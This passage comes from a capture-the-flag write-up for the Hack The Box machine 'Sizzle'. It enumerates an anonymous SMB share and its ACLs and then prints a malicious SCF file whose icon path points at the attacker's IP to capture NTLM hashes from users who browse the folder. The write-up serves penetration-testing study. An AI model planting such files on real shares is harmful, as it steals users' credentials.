 The only share we can read is _Department Shares_ so lets see what we find there:
```markdown
smbclient -N '//10.10.10.103/Department Shares'
```

![Folders in the share](https://kyuu-ji.github.io/htb-write-up/sizzle/sizzle_smb-shares.png)

There are many folders of different departments so I will mount this share locally for easy browsing:
```markdown
mount -t cifs -o vers=1.0 '//10.10.10.103/Department Shares' /mnt/smb
```

Then we search for all files:
```markdown
find . -ls | tee ~/root/Documents/htb/boxes/sizzle/smbrecon.txt
```

The most files are found in the folder **/ZZ_ARCHIVE**. Reviewing these files shows that all of them are filled with NULL bytes and useless.

We can enumarate the **Access Control List** permissions with a tool called **smbcacls** for every folder:
```markdown
smbcacls -N '//10.10.10.103/Department Shares' /Users
```
```markdown
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:Everyone:ALLOWED/0x0/READ
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
```

In the case of the folder _Users_ the owner is the local Administrators group and everyone is allowed to read it.
Lets look for all of them with a loop:
```markdown
for i in $(ls); smbcacls -N '//10.10.10.103/Department Shares' $i; done
```

After this finishes it is interesting to see that we can write to all folders in _User_ and most importantly to the user _Public_.

### SCF File Attack

By doing a [SCF (Shell Command Files) File Attack](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) we can create an alias for an icon that shows to our IP address and when Windows Explorer opens that directory, tries to pull the icon and attempts to authenticate, we will take the hash of that authentication.

The file I created is called _steal.scf_ and has this contents:
```markdown
[Shell]
Command=2
IconFile=\\10.10.14.22\share\stealhash.ico
[Taskbar]
Command=ToggleDesktop
```
